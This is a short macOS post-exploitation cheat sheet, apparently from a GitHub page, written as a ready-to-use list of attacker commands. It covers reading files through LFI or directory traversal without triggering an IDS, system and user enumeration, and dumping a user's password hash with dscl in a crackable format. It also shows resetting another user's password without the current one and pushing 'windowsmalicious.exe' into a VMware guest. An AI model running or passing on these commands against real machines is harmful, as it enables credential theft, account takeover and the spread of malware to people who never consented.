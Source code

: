 OSX Post-Exploitation Command List
==================================

Blind Files
------------

(things to pull when all you can do is blindly read) LFI/dir traversal

-   /etc/resolv.conf (everyone always has read on this and it wont
    trigger an IDS)



-

SYSTEM
------

-   uname -a

-   sw\_vers -productName

-   sw\_vers -productVersion

-   system\_profiler

-   defaults read com.apple.recentitems RecentApplications \| grep Name

-   defaults read com.apple.recentitems RecentDocuments \| grep Name

-   mdfind

-   id

-   printenv

-   who

-   ps aux

-   ps ea

-   dscl localhost -read /Search/Users/bob (read password hash of bob)

-   dscl localhost -read /Search/Users/bob ShadowHashData \| tail -1 \|
    xxd -r -p \| plutil -convert xml1 -o - - (Dump in workable format)

-   dscl localhost -passwd /Search/Users/bob (change bob's password
    without needing current)

-   /Library/Application Support/VMware Fusion/vmrun list

    -   /Library/Application Support/VMware Fusion/vmrun
        CopyFileFromHostToGuest windowsmalicious.exe aWindowsVM

    -   /Library/Application Support/VMware Fusion/vmrun captureScreen
        WindowsVM

-   Snow Leopard and Lion

    -   dscacheutil -q user

    -   dscacheutil -q group
